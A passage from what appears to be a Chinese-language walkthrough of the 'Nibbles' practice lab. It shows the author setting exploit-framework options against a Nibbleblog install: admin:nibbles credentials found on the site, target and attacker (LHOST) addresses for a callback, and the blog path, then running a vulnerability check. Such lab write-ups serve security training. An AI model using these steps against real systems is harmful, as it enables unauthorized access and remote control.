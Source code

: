 我现在将使用这些命令设置不同的选项:

```
set USERNAME admin
```

```
set PASSWORD nibbles
```

我将用户名:密码组合设置为 admin:nibbles。我在 **/users.xml** 页面上找到了用户名 admin，我用在(admin@nibbles.com**/config . XML**页面上找到的电子邮件试了试我的密码

```
set RHOSTS 10.129.151.27
```

```
set LHOST 10.10.14.110
```

我将目标 URI 设置为博客页面:

```
set TARGETURI /nibbleblog/
```

我运行了 **check** 命令——因为我在检查漏洞信息时发现它是可用的。目标看起来很脆弱。这也是对选项设置正确的确认。

![Screenshot-2021-05-23-at-23.44.34](img/87849298c7223d22adb41f22ae9cca6e.png)

我在运行漏洞利用之前检查了选项:

![Screenshot-2021-05-23-at-23.45.02](img/a568f7242675998e78694ac7dc2b24ce.png)
